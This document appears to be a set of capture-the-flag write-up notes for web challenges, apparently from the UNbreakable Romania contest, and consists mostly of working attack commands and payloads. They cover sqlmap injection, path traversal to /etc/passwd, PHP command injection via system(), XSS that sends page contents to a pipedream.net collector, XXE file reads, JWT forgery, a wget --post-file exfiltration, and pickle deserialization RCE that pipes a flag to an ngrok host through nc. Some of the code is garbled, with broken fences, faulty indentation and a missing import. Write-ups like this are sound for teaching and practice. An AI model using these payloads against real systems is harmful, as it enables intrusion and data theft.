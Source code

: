 # writeups

## https://blog.kuhi.to/unbreakable-romania-2-writeup

### Small data leak

```sqlmap -u http://35.198.183.125:30321/user?id=1;```
```sqlmap -u http://35.198.183.125:30321/user?id=1 --dbs```
```sqlmap -u http://35.198.183.125:30321/user?id=1 -D public --tables```
````sqlmap -u http://35.198.183.125:30321/user?id=1 -D public -T 'ctf{70ff919c37a20d6526b02e88c950271a45fa698b037e3fb898ca68295da' --columns```


### File Crawler

```http://34.141.25.94:32191/local?image_name=..//..//..//etc/passwd```
```http://34.141.25.94:32191/local?image_name=..////tmp//flag```


### Substitute
```http://35.246.170.233:31993/?vector=/Admin/e&replace=phpinfo()````
```http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls -l")```
```http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls here_we_dont_have_flag -l")```
```http://35.246.170.233:31993/?vector=/Admin/e&replace=system("cat here_we_dont_have_flag/flag.txt")```


### manual-review
```
<script>
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net"
</script>
```

### syntax check

burpsuite
```
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "/etc/passwd">
]>
<foo>&exfiltrate;</foo>
```

```
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/flag">
]>
<foo>&exfiltrate;</foo>
```
### Under Construction
https://github.com/ticarpi/jwt_tool
```
```python3 jwt_tool.py -t http://35.198.93.134:30791/api/app/admin -rc
"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTIsImlhdCI6MTYzNTkzNjY4OCwiZ
XhwIjoxNjM2MDIzMDg4fQ.tQ2KlBU8tI5V1Akiqhwy2LSEOF9oBTvnYFs_xgwro04" -C -d```
~/sss.txt 
```
https://jwt.io/

### Downloader v1

ngrok needed

ngrok http 7777

nc - lvnp 7777

https://eoifpwfcq85jqhy.m.pipedream.net/test.php --post-file '/var/www/html/flag.php'


###  Framable
```
<script>
    let html = document.body.innerHTML;
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net?bob=" + btoa(html)
</script>
```
atob('')

### alfa-cookie

```
import requests
import pickle
from pwn import *
url = "http://35.198.93.134:30049/dashboard"
    class RCE:
        def __reduce__(self):
        cmd = ('cat flag | nc 2.tcp.ngrok.io 17855')
        return os.system, (cmd,)
        
payload = pickle.dumps(RCE(), protocol=2)
print(payload)
key = len(payload) * "A"
auth_cookie = xor(payload, key).hex()

r = requests.get(url, cookies={"key": key, "auth_cookie": auth_cookie})
```

https://blog.kuhi.to/unbreakable-romania-2-writeup

### Rundown
```
curl -X POST http://35.246.170.233:32274/ > o.html
```

```
import pickle as cPickle
import base64
import os
import string
import requests
import time
class Exploit(object):
    def __reduce__(self):
        return (eval, ('eval(open("flag","r").read())', ))
def sendPayload(p):
    newp = base64.urlsafe_b64encode(p).decode()
    headers = {'Content-Type': 'application/T3jv1l'}
    r = requests.post("http://34.107.45.139:30396/",headers=headers,data=newp)
    return r.text
    
payload_dec = cPickle.dumps(Exploit(), protocol=2)
print("ctf{" + sendPayload(payload_dec).split("ctf{")[1].split("}")[0] +"}")
```

